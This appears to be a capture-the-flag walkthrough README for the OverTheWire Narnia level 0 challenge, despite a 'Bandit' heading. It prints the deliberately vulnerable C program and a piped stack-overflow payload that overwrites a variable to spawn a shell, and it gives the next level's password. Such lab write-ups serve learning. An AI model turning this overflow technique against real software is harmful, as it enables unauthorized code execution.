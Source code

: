 
# OverTheWire

OverTheWire's challenges walkthrogh.


## Bandit
### level 0->1
We can connect using secure 
shell to the server with narnia0 as the 
user and narnia0 as the password. After we logged 
in we can see two files narnia0 and narnia0.c .

*narnia0.c*
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }
    return 0;
}
```
From the code we can see that there is buffer
that gets from the standard input 24 bytes while
the buffer is only contains 20 bytes of space. before
that buffer we can see that the program declered variable
that contains 4 bytes so on the stack we can overwrite
this variable by send to the standard input 24 bytes.
Important thing we need to notice is that the scanf
function takes string and we need to change 0x41414141 to 0xdeadbeed
so we need to provide the standard input the string
presentation of 0xdeadbeef in hex. 

We can do it by write in the bash:
```
echo -e '\xef\xbe\xad\xde'
```
So the exploit will be:
```
(echo -e 'AAAABBBBCCCCEEEEFFFF\xef\xbe\xad\xde'; cat;) | ./narnia0
```
The password for the next level is: eaa6AjYMBB

###level 1->2








